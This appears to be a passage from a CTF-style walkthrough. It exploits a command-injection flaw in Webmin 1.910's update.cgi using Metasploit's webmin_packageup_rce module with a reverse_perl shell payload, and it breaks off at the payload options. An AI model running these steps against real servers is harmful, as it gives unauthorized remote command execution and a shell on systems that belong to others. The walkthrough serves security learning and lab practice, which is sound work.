 This is a vulnerability in Webmin 1.910, it allows `arbitrary code injection` while performing updates on `update.cgi`. The command injection happens when `command substitution` is applied in one of the parameters in the update command while referencing the source of the update. Nevertheless, here is the metasploit module that automates everything.

```console
$ msfconsole

[REDACTED]
msf6 > search webmin

Matching Modules
================

   #  Name                                           Disclosure Date  Rank       Check  Description
   -  ----                                           ---------------  ----       -----  -----------
   0  exploit/unix/webapp/webmin_show_cgi_exec       2012-09-06       excellent  Yes    Webmin /file/show.cgi Remote Command Execution
   1  auxiliary/admin/webmin/file_disclosure         2006-06-30       normal     No     Webmin File Disclosure
   2  exploit/linux/http/webmin_file_manager_rce     2022-02-26       excellent  Yes    Webmin File Manager RCE
   3  exploit/linux/http/webmin_package_updates_rce  2022-07-26       excellent  Yes    Webmin Package Updates RCE
   4  exploit/linux/http/webmin_packageup_rce        2019-05-16       excellent  Yes    Webmin Package Updates Remote Command Execution
   5  exploit/unix/webapp/webmin_upload_exec         2019-01-17       excellent  Yes    Webmin Upload Authenticated RCE
   6  auxiliary/admin/webmin/edit_html_fileaccess    2012-09-06       normal     No     Webmin edit_html.cgi file Parameter Traversal Arbitrary File Access
   7  exploit/linux/http/webmin_backdoor             2019-08-10       excellent  Yes    Webmin password_change.cgi Backdoor


Interact with a module by name or index. For example info 7, use 7 or use exploit/linux/http/webmin_backdoor

msf6 > 
```

I'll be using number `4`. Supply the arguments needed for the exploit and run it.

```console
msf6 > use exploit/linux/http/webmin_packageup_rce 
[*] Using configured payload cmd/unix/reverse_perl
msf6 exploit(linux/http/webmin_packageup_rce) > show options

Module options (exploit/linux/http/webmin_packageup_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    yes       Webmin Password
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      10000            yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path for Webmin application
   USERNAME                    yes       Webmin Username
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_perl):

```